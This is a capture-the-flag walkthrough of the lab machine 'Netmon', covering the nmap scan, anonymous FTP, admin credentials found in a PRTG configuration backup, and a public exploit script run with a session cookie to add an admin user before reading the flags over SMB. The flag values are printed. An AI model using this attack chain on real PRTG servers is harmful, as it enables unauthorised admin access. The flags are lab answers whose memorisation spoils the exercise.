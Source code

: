 # Netmon Writeup

## Inital Enumeration

Nmap Scan

`nmap -A 10.10.10.152`

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-13 19:54 EDT
Nmap scan report for 10.10.10.152
Host is up (0.19s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-03-13 19:55:37
|_  start_date: 2019-03-13 19:47:06

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.95 seconds
```

Looking on port 80, it looks like this version of PRTG Network Monitor is vulnerable. But the exploit needs credentials, and the default login for Network Monitor seems to have been changed.

## User Flag

Nmap mentions that we have anonymous ftp access. FTPing into `C:\Users\Public` reveals `user.txt`. We simply download it to our machine and cat it.

`dd58ce67b49e15105e88096c8d9255a5`

## Root Flag

I try some basic enumeration and end up with nothing. However, since port 80 is running PRTG Network Monitor, we can look for application files. In `C:\Users\All Users\Paessler`, we find the installation directory. After going through all the files, `PRTG Configuration.old.bak` has credentials in it.

```
<!-- User: prtgadmin -->
PrTg@dmin2018
```

Now we can use the exploit we found earlier! The exploit need the session cookie to run. We just login as `prtgadmin`, grab the session cookie, and run the exploit. The exploit that I found creates a new user `pentest` with admin privileges.

Command

```
sh 46527.sh -h 10.10.10.156 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"
```

Because smb is also open, we can use our newly created user to read `root.txt`

Command

```
smbclient -I 10.10.10.156 -U pentest
```

`3018977fb944bf1878f75b879fba67cc`

